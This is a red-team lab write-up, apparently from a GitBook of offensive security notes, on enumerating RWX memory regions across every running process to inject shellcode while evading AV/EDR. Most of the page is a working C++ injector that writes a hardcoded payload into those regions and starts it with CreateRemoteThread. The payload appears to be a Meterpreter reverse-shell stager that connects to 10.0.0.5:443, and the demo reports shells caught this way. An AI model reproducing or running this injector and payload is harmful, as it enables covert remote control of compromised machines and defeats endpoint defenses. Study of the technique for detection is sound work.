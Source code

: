```yaml
---
description: 'Code Injection, Defense Evasion'
---
```


# Enumerating RWX Protected Memory Regions for Code Injection

Injecting and executing shellcode from a local or target process requires memory where the shellcode could be written to, read from and executed. 

Some shellcode injection techniques allocate `PAGE_EXECUTE_READWRITE` memory block, fill it with shellcode and create a thread pointing to that shellcode. It's not a very common thing for bening applications to do and this is something AV/EDR solutions may punish you for if they catch you doing it.

Some techniques allocate `PAGE_READWRITE` first, write shellcode to the allocated memory, protect it with `PAGE_EXECUTE_READ` and then execute it, which means that at no point in time there's an RWX memory block in the target process. It is a bit stealthier and may help one sneak past AVs/EDRs.

What both techniques have in common is that they still need to **allocate** and **protect** memory \(RW -&gt; RX or RWX\).  Having said that, it is possible to brute-force/enumerate currently running target processes on the compromised system - search through their allocated memory blocks and check if any those are protected with RWX, so we can attempt to write/read/execute them, which may help evade some optics.

## Overview

In this lab I will write a simple program that will:

* Loop through all the processes on the system
* Query each process's memory information
* Loop through all allocated memory blocks in each process
* Check for any memory block that is protected with RWX && is private && is committed
* If the above condition is met
  * Print out address of the memory block
  * Write shellcode to that memory block
* Create a remote thread that points to the shellcode written in the above step

Running the [Code](finding-all-rwx-protected-memory-regions.md#code) with breakpoint set on line 31 will be hit if the conditions on line 27 are met. The conditions we are checking for are: 

```cpp
mbi.AllocationProtect == PAGE_EXECUTE_READWRITE 
&& mbi.State == MEM_COMMIT 
&& mbi.Type == MEM_PRIVATE
```

Once the breakpoint is hit, we can see that the memory region 27c727a0000 is RX protected, is private and commited and now contains our shellcode \(starting with bytes fc 48 83 e4\) :

![](../../.gitbook/assets/image%20%28217%29.png)

If you noticed and were wondering...

> ### Why were we able to WRITE to an RX memory region?
>
> When you call `Write­Process­Memory` and tell it to write to memory that is read-only, the `Write­Process­Memory` succeeds. How can that be?
>
> Because `Write­Process­Memory` tries really hard to please you.
>
> As I noted some time ago, [the primary audience for functions like `Create­Remote­Thread` and `Write­Process­Memory` is debuggers](https://blogs.msdn.microsoft.com/oldnewthing/20120808-00/?p=6913). And when debuggers try to patch memory, it’s often for things like patching in a breakpoint instruction or doing some [edit-and-continue](https://docs.microsoft.com/en-us/visualstudio/debugger/edit-and-continue?view=vs-2015) magic. So the `Write­Process­Memory` tries really hard to get those bytes written. If the page is read-only, `Write­Process­Memory` temporarily changes the permission to read-write, updates the memory, and then restores the original permission.
>
> “No need to thank me, just trying to help.”
>
> There is a race condition if the target process happens to be manipulating the page protection at the same time that `Write­Process­Memory` is. But that’s okay, because the intended audience is debuggers, and debuggers will freeze the target process before trying to edit its memory.
>
> There is no security hole here, because the way the `Write­Process­Memory` function changes the page protection is basically `Virtual­Protect­Ex`, so it will succeed only if you already could have modified the protections yourself anyway. If you didn’t have permission to change the protections, then `Write­Process­Memory`‘s attempt to change the protections would fail too.
>
> Source: [https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415](https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415)

## Demo

Let's build the program and run it - we can see we got some meterpreter shells.

![](../../.gitbook/assets/memoryenumerationshell.gif)

{% hint style="warning" %}
The below provided code is a dirty POC and may crash certain processes and the Visual Studio banner appearing in the above GIF proves it - the shellcode got injected into Visual Studio \(devenv.exe\) that crashed and restarted itself.
{% endhint %}

## Code

{% tabs %}
{% tab title="rwx-hunter.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
	MEMORY_BASIC_INFORMATION mbi = {};
	LPVOID offset = 0;
	HANDLE process = NULL;
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	DWORD bytesWritten = 0;
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	Process32First(snapshot, &processEntry);
	while (Process32Next(snapshot, &processEntry))
	{
		process = OpenProcess(MAXIMUM_ALLOWED, false, processEntry.th32ProcessID);
		if (process)
		{
			std::wcout << processEntry.szExeFile << "\n";
			while (VirtualQueryEx(process, offset, &mbi, sizeof(mbi)))
			{
				offset = (LPVOID)((DWORD_PTR)mbi.BaseAddress + mbi.RegionSize);
				if (mbi.AllocationProtect == PAGE_EXECUTE_READWRITE && mbi.State == MEM_COMMIT && mbi.Type == MEM_PRIVATE)
				{
					std::cout << "\tRWX: 0x" << std::hex << mbi.BaseAddress << "\n";
					WriteProcessMemory(process, mbi.BaseAddress, shellcode, sizeof(shellcode), NULL);
					CreateRemoteThread(process, NULL, NULL, (LPTHREAD_START_ROUTINE)mbi.BaseAddress, NULL, NULL, NULL);
				}
			}
			offset = 0;
		}
		CloseHandle(process);
	}

	return 0;
}
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualqueryex" %}

